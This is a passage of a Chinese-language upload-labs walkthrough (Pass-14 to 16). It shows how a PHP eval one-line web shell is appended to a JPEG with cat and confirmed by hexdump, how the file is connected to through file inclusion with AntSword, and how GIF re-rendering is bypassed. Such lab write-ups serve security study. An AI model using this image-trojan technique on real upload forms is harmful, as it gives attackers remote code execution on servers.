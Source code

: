 尝试 **上传图片马**

将 `fish1.php` 追加到 `fish_real.jpg` 末尾，生成 `fish_trojan.jpg`

```shell
cat fish_real.jpg fish1.php > fish_trojan.jpg
```

查看 `fish_trojan.jpg` 最后 10 行的数据内容，确认一句话木马被正确追加

```shell
┌──(hailo㉿kali-Hailo)-[~/workspace/upload-labs]
└─$ hexdump -C fish_trojan.jpg | tail
0003b200  93 f8 55 c6 b7 8d 49 60  b5 11 c6 7a 51 70 22 c3  |..U...I`...zQp".|
0003b210  7a d0 0b 8f 53 4e ef 4a  25 6c f4 14 5c 06 ac a7  |z...SN.J%l..\...|
0003b220  71 06 9e 65 c8 c0 00 52  15 56 ed cd 21 8c 50 01  |q..e...R.V..!.P.|
0003b230  b4 7f 7a 8d 87 d6 8c 6d  14 64 d2 18 bc fa d1 b8  |..z....m.d......|
0003b240  f7 a3 39 a3 14 00 1e 7a  51 83 4a 06 28 ce 29 5c  |..9....zQ.J.(.)\|
0003b250  60 29 43 1a 4a 29 0d 0b  b9 8f 1d 28 12 4c 9d 0e  |`)C.J).....(.L..|
0003b260  7e b4 6e 34 e0 f4 0c ff  d9 3c 3f 70 68 70 20 40  |~.n4.....<?php @|
0003b270  65 76 61 6c 28 24 5f 50  4f 53 54 5b 27 66 69 73  |eval($_POST['fis|
0003b280  68 27 5d 29 20 3f 3e                              |h']) ?>|
0003b287

```

上传 `fish_trojan.jpg` 成功，利用任意文件包含漏洞使用蚁剑进行连接

![PixPin_2025-05-09_20-07-54](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-07-54.5fksz6kkoc.webp)

## Pass-15

> [!WARNING]
> 需要开启 php_exif 扩展模块

![PixPin_2025-05-09_20-12-54](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-12-54.2obqr45zsi.webp)

上传 `fish_trojan.jpg` 成功，利用任意文件包含漏洞使用蚁剑进行连接

![PixPin_2025-05-09_20-19-03](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-19-03.7egzpj41lr.webp)

## Pass-16

尝试 **二次渲染绕过**

1、gif 绕过

上传正确的图片 `fish_real.gif`，将上传后的照片另存为 `fish2_real.gif`，并使用 010 Editor 比较两张图片

![PixPin_2025-05-13_16-31-41](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-13_16-31-41.67xomf255n.webp)

在未被二次渲染的部分插入一句话木马，另存为 `fish2_trojan.gif` 后上传成功

![PixPin_2025-05-13_16-32-08](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-13_16-32-08.3nru9s2rc0.webp)
